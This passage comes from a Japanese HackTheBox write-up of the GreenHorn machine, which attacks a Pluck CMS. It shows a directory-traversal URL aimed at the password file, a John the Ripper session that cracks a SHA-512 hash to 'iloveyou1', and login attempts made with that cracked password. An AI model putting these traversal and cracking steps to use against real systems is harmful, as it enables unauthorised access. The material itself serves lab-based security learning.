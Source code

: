 	This lines change the password to "123456".
	
	Then login, click 'options' and change the password
	
	[](https://github.com/pluck-cms/pluck/wiki/_Footer/_edit "Edit footer")
	
	bx0
という記述がある。この記述から、data\settings\pass.phpでパスワードを変更することができるとわかる。
しかし、`curl -o http://greenhorn.htb/data/settings/pass.php`と直接ダウンロードしようとしても、ダウンロードできない。
以下のようなディレクトリトラバーサル攻撃もうまく効かない
`http://greenhorn.htb/?file=welcome-to-greenhorn....//....//....//....//data/settings/pass.php`

このサーバーは、3000番からアクセスできる。
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Easy/GreenHorn/images/Pasted%20image%2020250102124547.png)
johnで解析する。
ハッシュのパスワードが「iloveyou1」であることがわかった。
```sh
└──╼ [★]$ echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hashes.txt

└──╼ [★]$ john --format=raw-sha512 hashes.txt
Created directory: /home/snowyowl644/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
iloveyou1        (?)     
1g 0:00:00:00 DONE 2/3 (2025-01-01 21:58) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

sshでadmin/iloveyou1でログインしたがログインできない。
まず、pluck CMSにadmin/iloveyou1でログイン。
ユーザーを確認する。
